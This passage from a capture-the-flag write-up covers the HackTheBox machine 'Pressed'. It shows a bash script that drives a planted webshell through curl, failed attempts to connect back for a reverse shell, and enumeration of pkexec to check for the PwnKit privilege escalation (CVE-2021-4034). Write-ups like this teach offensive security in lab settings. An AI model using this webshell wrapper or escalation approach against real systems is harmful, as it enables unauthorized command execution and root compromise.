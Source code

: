I want a script to more easily interact with the webshell, so I’ll write a
quick curl command and wrap that into a `bash` script to run easily:

    
    
    #!/bin/bash
    
    curl -d "cmd=$1" -s 'http://pressed.htb/index.php/2022/01/28/hello-world/' |
            awk '/<\/table>/{flag=1;next}/<p><\/p>/{flag=0}flag' |
            sed 's/&#8211;/--/g' | sed 's/&#8212;/---/g' |
            head -n -3
    

Here’s the [process for making
that](https://www.youtube.com/watch?v=WmQFRNphbps):

## Shell as root

### Enumeration

#### Connectivity

When all my attempts to get a reverse shell failed, I turned back to just
trying to connect back to my host from Pressed.

There doesn’t seem to be any way to connect back. `curl` and `nc` both just
hang trying to connect back. Even `ping` failed:

    
    
    oxdf@hacky$ ./webshell.sh 'ping -c 1 10.10.14.6'
    PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
    
    --- 10.10.14.6 ping statistics ---
    1 packets transmitted, 0 received, 100% packet loss, time 0ms
    

Looks like I’ll need to enumerate the box using the webshell.

#### PwnKit

I know that UHC likes to show off the current trending vulnerabilities, and
[PwnKit](https://blog.qualys.com/vulnerabilities-threat-
research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-
discovered-in-polkits-pkexec-cve-2021-4034) (CVE-2021-4034) is certainly one
of those. Unfortunately, when `pkexec` was patched for PwnKit, they didn’t
change the version number, so there’s no way to tell from the version if it it
patched or not. However, I can look at timestamps:

    
    
    oxdf@hacky$ ./webshell.sh 'which pkexec'
    /usr/bin/pkexec
    oxdf@hacky$ ./webshell.sh 'ls -l /usr/bin/pkexec'
    -rwsr-xr-x 1 root root 31032 Jul 14  2021 /usr/bin/pkexec
    

If this binary was last modified last July, then it’s very unlikely that it’s
patched in early 2022.
